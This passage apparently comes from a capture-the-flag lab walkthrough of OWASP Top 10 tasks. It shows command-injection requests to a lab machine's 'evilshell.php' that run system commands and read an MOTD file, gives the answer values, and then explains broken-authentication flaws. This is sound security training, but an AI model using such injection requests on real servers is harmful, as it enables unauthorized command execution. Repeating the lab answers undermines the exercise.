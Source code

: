 `/usr/sbin/nologin`

5. What version of Ubuntu is running?

`http://10.10.175.234/evilshell.php?commandString=lsb_release+-a`

```
Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic
```

`18.04.4`

6. Print out the MOTD. What favorite beverage is shown?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fupdate-motd.d%2F00-header`

```
#!/bin/sh # # 00-header - create the header of the MOTD # Copyright (C) 2009-2010 Canonical Ltd. # # Authors: Dustin Kirkland # # This program is free software; you can redistribute it and/or modify # it under the terms of the GNU General Public License as published by # the Free Software Foundation; either version 2 of the License, or # (at your option) any later version. # # This program is distributed in the hope that it will be useful, # but WITHOUT ANY WARRANTY; without even the implied warranty of # MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the # GNU General Public License for more details. # # You should have received a copy of the GNU General Public License along # with this program; if not, write to the Free Software Foundation, Inc., # 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. [ -r /etc/lsb-release ] && . /etc/lsb-release if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then # Fall back to using the very slow lsb_release utility DISTRIB_DESCRIPTION=$(lsb_release -s -d) fi printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)" DR PEPPER MAKES THE WORLD TASTE BETTER!
```

`DR PEPPER`

## [Task 7] [Day 2] Broken Authentication

![](https://i.imgur.com/49p4BkI.png)

Authentication and session management constitute core components of modern web applications. Authentication allows users to gain access to web applications by verifying their identities. The most common form of authentication is using a username and password mechanism. A user would enter these credentials, the server would verify them. If they are correct, the server would then provide the users’ browser with a session cookie. A session cookie is needed because web servers use HTTP(S) to communicate which is stateless. Attaching session cookies means that the server will know who is sending what data. The server can then keep track of users' actions.

If an attacker is able to find flaws in an authentication mechanism, they would then successfully gain access to other users’ accounts. This would allow the attacker to access sensitive data (depending on the purpose of the application). Some common flaws in authentication mechanisms include:

- Brute force attacks: If a web application uses usernames and passwords, an attacker is able to launch brute force attacks that allow them to guess the username and passwords using multiple authentication attempts.
- Use of weak credentials: web applications should set strong password policies. If applications allow users to set passwords such as ‘password1’ or common passwords, then an attacker is able to easily guess them and access user accounts. They can do this without brute forcing and without multiple attempts.
- Weak Session Cookies: Session cookies are how the server keeps track of users. If session cookies contain predictable values, an attacker can set their own session cookies and access users’ accounts.

